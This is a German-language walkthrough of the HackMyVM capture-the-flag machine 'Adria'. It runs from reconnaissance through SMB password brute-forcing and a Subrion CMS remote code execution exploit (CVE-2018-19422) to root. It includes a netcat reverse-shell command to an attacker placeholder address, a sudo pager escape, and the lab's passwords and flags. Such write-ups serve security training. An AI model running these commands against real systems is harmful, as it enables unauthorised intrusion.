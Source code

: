 # Adria - HackMyVM Lösungsweg

![Adria VM Icon](adria.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Adria".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Adria
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Mittel (Medium)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=adria](https://hackmyvm.eu/machines/machine.php?vm=adria)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Adria.HackMyVM/](https://alientec1908.github.io/Adria.HackMyVM/)
*   **Datum des Originalberichts:** 26. April 2024

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `vi`
*   `nmap`
*   `enum4linux`
*   `smbclient`
*   `crackmapexec`
*   `grep`
*   `python3` (insb. `http.server`)
*   `nc` (netcat)
*   `stty`
*   `find`
*   `getcap`
*   `wget`
*   `sudo`
*   `scalar` (GIT)
*   `ssh2john`
*   `ssh`
*   `fcrackzip`
*   Standard Linux-Befehle (`ls`, `cat`, `chmod`, `cd`, `su`, etc.)

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.110` wurde mittels `arp-scan -l` identifiziert.
*   Der Hostname `adria.hmv` wurde der IP `192.168.2.110` in der `/etc/hosts`-Datei des Angreifers zugeordnet.
*   Ein `nmap`-Scan (`nmap -sS -sV -AO -T5 192.168.2.110 -p-`) ergab offene Ports:
    *   **Port 22/tcp (SSH):** OpenSSH 9.2p1 Debian 2.
    *   **Port 80/tcp (HTTP):** Apache httpd 2.4.57 ((Debian)), hostet ein **Subrion CMS 4.2**.
        *   `robots.txt` enthüllte Pfade wie `/backup/`, `/panel/`, `/install/`.
    *   **Port 139/tcp (NetBIOS-SSN):** Samba smbd 4.6.2.
    *   **Port 445/tcp (SMB):** Samba smbd 4.6.2.

### 2. Web Enumeration & SMB

*   **SMB Enumeration:**
    *   `enum4linux -a 192.168.2.110` fand die Freigaben `print$`, `DebianShare`, `IPC$`, `nobody` und den Unix-Benutzer **`adriana`** (UID 1001).
    *   `smbclient -L \\\\192.168.2.110` bestätigte die Freigaben.
    *   `crackmapexec smb 192.168.2.110 -u adriana -p /usr/share/wordlists/rockyou.txt` fand das Passwort **`s13!34g$3FVA5e@ed`** für den Benutzer `adriana`.
    *   `crackmapexec smb 192.168.2.110 -u guest -p '' --shares` zeigte, dass der Gastbenutzer Lesezugriff auf `DebianShare` hat.
    *   In `DebianShare` wurde via `crackmapexec --spider` die Datei `configz.zip` gefunden.
*   **Analyse von `configz.zip`:**
    *   Die Datei wurde mit `smbclient` heruntergeladen.
    *   Die Verzeichnisstruktur (`boot`, `isolinux`, `preseed`) deutete auf ein Installationsarchiv (vermutlich Debian Preseed) hin.
    *   `grep -ri pass *` im entpackten Archiv fand in `preseed/master.preseed` die Klartext-Zugangsdaten:
        *   Benutzer: `admin`, Passwort: `jojo1989`
        *   Benutzer: `root`, Passwort: `jojo1989`
*   **Web Enumeration (Subrion CMS):**
    *   Der Quellcode der Webseite auf `http://adria.hmv/` zeigte einen `securityToken`.
    *   Eine Registrierungsfunktion schien Passwörter per E-Mail zu versenden.
    *   Es wurde versucht, sich mit `admin:jojo1989` im Admin-Panel (`/panel/`) des Subrion CMS anzumelden.

### 3. Initial Access als `www-data`

*   **Ausnutzung von CVE-2018-19422 (Subrion CMS RCE):**
    *   Ein Exploit-Skript (`subrion.py`) für diese Schwachstelle wurde von GitHub heruntergeladen.
    *   Das Skript wurde ausgeführt: `python3 subrion.py -u http://adria.hmv/panel/ -l admin -p jojo1989`.
    *   Das Skript lud erfolgreich eine Webshell (`.phar`-Datei) hoch und ermöglichte die Ausführung von Befehlen.
    *   Über die Webshell wurde `id` ausgeführt (Ergebnis: `www-data`) und `netcat` (`nc`) lokalisiert.
*   **Reverse Shell als `www-data` etabliert:**
    *   Ein Netcat-Listener wurde auf der Angreifer-Maschine gestartet (`nc -lvnp 4444`).
    *   Über die Webshell wurde eine Reverse Shell zum Listener aufgebaut:
        `nc -e /bin/bash ANGREIFER_IP 4444`
    *   Die Shell wurde mit Python PTY und `stty` stabilisiert.

### 4. Privilege Escalation

*   **Enumeration als `www-data`:**
    *   Ein lokaler MySQL-Dienst auf Port `3306` wurde identifiziert.
    *   Der Benutzer `adriana` wurde als Zsh-Benutzer bestätigt. Der Zugriff auf `/home/adriana/` wurde verweigert.
    *   In `/opt/` wurde ein Shell-Skript namens `backup` gefunden, das ein Passwort aus `/root/pass` liest und dieses zum Verschlüsseln von `/opt/backup.zip` verwendet.
    *   Keine ungewöhnlichen SUID-Binaries oder Capabilities, die direkt ausnutzbar schienen.
    *   `pspy64` wurde auf das Zielsystem geladen, zeigte jedoch keine offensichtlich ausnutzbaren Cronjobs für `www-data`.
*   **Horizontale Privilegieneskalation zu `adriana`:**
    *   `sudo -l` als `www-data` zeigte: `(adriana) NOPASSWD: /usr/bin/scalar`.
    *   Durch Ausführen von `sudo -u adriana /usr/bin/scalar help` und anschließender Eingabe von `!bash` im Pager von `scalar` konnte eine Shell als Benutzer `adriana` erlangt werden.
*   **Enumeration als `adriana`:**
    *   Im Home-Verzeichnis von `adriana` wurde die `user.txt` gefunden und gelesen.
    *   Die `.bash_history` enthielt den Befehl `su - 8eNctPoCh4Potes5eVD7eMxUw6wRBmO`. Dieser String wurde als potenzielles Root-Passwort identifiziert.
    *   Der private SSH-Schlüssel `id_rsa` von `adriana` wurde gefunden. `ssh2john` zeigte, dass der Schlüssel **nicht passwortgeschützt** ist.
*   **Bestätigung des Root-Passworts:**
    *   Der Angreifer führte `/opt/backup` als `adriana` aus (oder ließ es durch das System ausführen) und gab das Passwort `8eNctPoCh4Potes5eVD7eMxUw6wRBmO` ein. Das Skript erstellte `/opt/backup.zip`.
    *   Diese `backup.zip` wurde auf das Angreifer-System heruntergeladen.
    *   `fcrackzip -D -u -v -p /usr/share/wordlists/rockyou.txt backup.zip` knackte das Passwort der ZIP-Datei und bestätigte **`8eNctPoCh4Potes5eVD7eMxUw6wRBmO`**.
*   **Finale Privilegieneskalation zu `root`:**
    *   Als `adriana` wurde `su root` ausgeführt.
    *   Das Passwort `8eNctPoCh4Potes5eVD7eMxUw6wRBmO` wurde eingegeben.
    *   **Erfolgreicher Login als `root`**.
    *   Im Home-Verzeichnis von `root` wurden die Dateien `pass` (enthielt das Root-Passwort) und `root.txt` gefunden.

### 5. Flags

*   **User-Flag (`/home/adriana/user.txt`):**
    ```
    fbd401c3bff5ec92d1ba6f74a2340f0f
    ```
*   **Root-Flag (`/root/root.txt`):**
    ```
    3a61b172fd39402aa96b1653a18e38a1
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Adria" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.
